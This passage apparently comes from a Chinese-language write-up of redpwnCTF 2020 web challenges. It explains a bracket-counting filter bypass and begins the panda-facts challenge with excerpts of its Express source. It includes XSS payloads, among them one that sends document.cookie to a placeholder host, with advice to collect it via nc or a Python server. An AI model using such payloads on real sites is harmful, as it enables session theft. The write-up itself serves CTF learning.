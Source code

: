 ```
        `}`
    `}`
    return result
`}`
```

可以看出对`&lt;&gt;`包裹的会被过滤，单是先传入`&gt;`会导致 `brackets=-1`,后面传入`&lt; brackets=0`就不会被过滤

```
&gt;&lt;img src=x onerror=alert("ddddddhm");&gt;
// 打cookie
&gt;&lt;img src=x onerror=window.location.href='https://ip/?c='+document.cookie;&gt;
```

可以用python开一个服务或nc收cookie

[![](https://s1.ax1x.com/2020/06/30/NIrEb4.png)](https://s1.ax1x.com/2020/06/30/NIrEb4.png)

## web/panda-facts

> I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!
Site: [panda-facts.2020.redpwnc.tf](https://panda-facts.2020.redpwnc.tf/)

输入用户名即可登陆，登陆后提示 You are not a member

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/06/30/NIfmIU.png)

给了源码，瞧下源码

```
global.__rootdir = __dirname;

const express = require('express');
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const path = require('path');
const crypto = require('crypto');

require('dotenv').config();

const INTEGRITY = '12370cc0f387730fb3f273e4d46a94e5';

const app = express();

app.use(bodyParser.json(`{` extended: false `}`));
app.use(cookieParser());

app.post('/api/login', async (req, res) =&gt; `{`
    if (!req.body.username || typeof req.body.username !== 'string') `{`
        res.status(400);
        res.end();
        return;
    `}`
    res.json(`{`'token': await generateToken(req.body.username)`}`);
    res.end;
`}`);

app.get('/api/validate', async (req, res) =&gt; `{`
    if (!req.cookies.token || typeof req.cookies.token !== 'string') `{`
        res.json(`{`success: false, error: 'Invalid token'`}`);
        res.end();
        return;
    `}`

```
